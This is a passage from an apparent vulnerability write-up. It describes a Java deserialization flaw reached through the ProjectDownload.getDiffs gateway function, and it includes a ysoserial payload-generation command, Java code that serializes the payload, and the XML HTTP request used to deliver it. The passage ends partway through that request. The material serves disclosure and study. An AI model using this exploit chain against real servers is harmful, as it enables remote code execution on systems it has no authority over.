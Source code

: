 This is checked against the whitelist shown in in the previous section, and allowed to be deserialized since it's a *String* class.

We then go into *ProjectDownload.getDiffs()*, where it takes our String argument and then calls *Base64.decodeToObjectFragile()* on it without specifying a whitelist.

As shown in *Snippet 4*, this will Base64 decode the String and then invoke *ObjectInputStream.readObject()* on our malicious object (YSOSERIAL_PAYLOAD), resulting in code execution!

## Payload generation

To create our payload, we start by calling ysoserial as shown below:

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 'cmd /c "whoami > C:\\flashback.txt"' | base64 -w 0
```
> Snippet 7: *ysoserial CommonsBeanutils1* payload generation and base64 encoding



Then the following Java code can be used to encapsulate a payload inside a String and serialize it to disk:

```java
    public static void main(String[] args) {
        try {
            String payload = "<YSOSERIAL_BASE64_PAYLOAD>";
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(bos);
            objectOutputStream.writeObject(payload);
            objectOutputStream.close();
            byte[] encodedBytes = Base64.getEncoder().encode(bos.toByteArray());
            FileOutputStream fos = new FileOutputStream("/tmp/output");
            fos.write(encodedBytes);
            fos.close();
            bos.close();
        } catch (Exception e) {
            e.printStackTrace();
        }

    }
```
> Snippet 8: Payload generation code



In this code, `<YSOSERIAL_BASE64_PAYLOAD>` should contain the output of *Snippet 7*.

Finally we send the following request to the target:

```xml
POST /system/gateway HTTP/1.1
Content-type: text/xml
User-Agent: Java/11.0.4
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
Content-Length: 1337

<?xml version="1.0" encoding="UTF-8"?>
<requestwrapper>
    <version>1184437744</version>
    <scope>2</scope>
    <message>
        <messagetype>199</messagetype>
        <messagebody>
            <arg name="funcId"><![CDATA[ProjectDownload]]></arg>
            <arg name="subFunction"><![CDATA[getDiff]]></arg>
            <arg name="arg" index="0"><![CDATA[<PAYLOAD>]]></arg>
        </messagebody>
```